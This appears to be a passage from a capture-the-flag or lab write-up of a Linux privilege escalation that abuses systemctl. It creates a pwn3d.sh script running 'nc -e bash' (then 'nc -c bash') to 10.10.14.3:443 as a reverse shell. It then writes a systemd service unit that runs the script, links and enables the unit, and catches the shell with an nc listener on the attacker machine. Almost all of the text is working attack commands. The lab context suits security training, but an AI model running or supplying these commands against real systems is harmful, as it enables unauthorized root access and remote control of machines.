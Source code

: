 > **Victime Machine**:

```bash
touch pwn3d.sh
nano !$
cat !$
```

> **pwn3d.sh**:

```bash
#!/bin/bash

nc -e bash 10.10.14.3 443
```

```bash
chmod +x pwn3d.sh
touch pwn3d.service
nano !$
cat !$
```

> **pwn3d.service**:

```
[Service]
Type=oneshot
ExecStart=/dev/shm/pwn3d.sh
[Install]
WantedBy=multi-user.target
```

> **Attacker Machine**:

```bash
nc -nlvp 443
```

> **Victime Machine**:

```bash
systemctl link /dev/shm/pwn3d.service
systemctl enable --now /dev/shm/pwn3d.service
# :(

nano pwn3d.sh
cat !$
# nc -c bash 10.10.14.3 443       -c parameter
```

> **Attacker Machine**:

```bash
nc -nlvp 443
```

> **Victime Machine**:

```bash
mv pwn3d.service pwn3d_0.service
systemctl link /dev/shm/pwn3d_0.service
systemctl enable --now /dev/shm/pwn3d_0.service

whoami
hostname
# :)
```

